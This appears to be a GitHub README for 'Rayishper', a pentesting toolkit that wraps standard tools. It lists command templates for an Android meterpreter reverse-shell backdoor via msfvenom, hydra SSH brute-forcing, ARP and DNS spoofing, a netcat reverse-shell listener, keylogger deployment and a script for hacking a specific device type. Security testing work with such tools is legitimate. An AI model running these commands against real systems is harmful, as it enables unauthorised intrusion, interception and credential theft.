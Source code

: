 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
```

```bash
cd rayishper
```

## Make the script executable:
```bash
chmod +x rayishper.py
```

## Install the required dependencies:
```bash
sudo apt-get update
```
```bash
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
```
**Ensure that all tools used in the script are correctly installed and accessible in your PATH.**

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

- **Python-3:** The core programming language used in the script.
- **Metasploit Framework:** For payload generation, reverse shell listeners, and exploitation.
- **nmap:** For network scanning and discovery.
- **Hydra:** For brute-forcing SSH logins.
- **Tcpdump:** For packet sniffing and network analysis.
- **Aircrack ng:** For wireless network cracking.
- **John the Ripper:** For password cracking.
- **Social Engineering Toolkit (SET):** For social engineering attacks.

## Usage
## To run Rayishper:
```bash 
./rayishper.py 
 ```

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

## VF685 Hack
Description: Automate hacking a specific VF685 target.

Command: 
```bash 
python3 VF685.py
```

## Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.

Command:
```bash 
 python3 keylog.py
```

## Payload Creation
Description: Generate a custom Android payload using Metasploit.

Command: 
```bash 
msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}
```

## SSH Brute-Force
Description: Perform a brute-force attack on SSH login.

Command: 
```bash
hydra -l {username} -P {wordlist} ssh://{target_ip}
```

## Network Scanning
Description: Scan a target IP for open ports and services.

Command: 
```bash
nmap -sV {target_ip}
```

## ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.

Command: 
```bash
sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}
```

## Reverse Shell Listener
Description: Start a netcat listener for reverse shells.

Command: 
```bash
nc -lvnp {lport}
```

## DNS Spoofing
Description: Spoof DNS responses on a network.

Command: 
```bash
sudo dnsspoof
```

## License
This project is open-source and available under the 
```bash 
MIT License.
```